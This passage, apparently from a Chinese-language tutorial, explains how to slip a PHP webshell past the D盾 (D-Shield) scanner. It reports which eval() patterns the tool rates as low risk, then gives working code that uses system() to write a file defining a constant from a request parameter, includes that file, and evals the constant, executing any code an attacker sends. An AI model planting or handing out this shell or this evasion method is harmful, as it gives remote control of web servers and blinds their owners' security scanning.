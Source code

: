 发现D盾检测到威胁降低，因为D盾考虑到可能1.php中有业务需要使用，勉强白给。

**当eval()加一个常量时**
![](img/26.png)
发现D盾对常量的检测就不是很敏感了，之给了个1级，表示可能存在威胁。


**当eval()加一个常量并同时包含一个页面时**
![](img/28.png)
D盾认为，可能是包含了页面中的业务，所以直接把`eval()`PASS掉了。成功绕过。

因为D盾语句不会匹配到`system()`函数中的 cmd 命令，可以先写一个连接语句后包含进来，即可完成连接。
```php
<?php
//pass=shell
system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
include('1.php');eval(shell);
?>
```




以下默认没有版本限制

**创建文件后包含绕过型**
>使用文件包含尝试绕过检测 只可以在windows环境中使用，Linux会权限不足无法创建文件
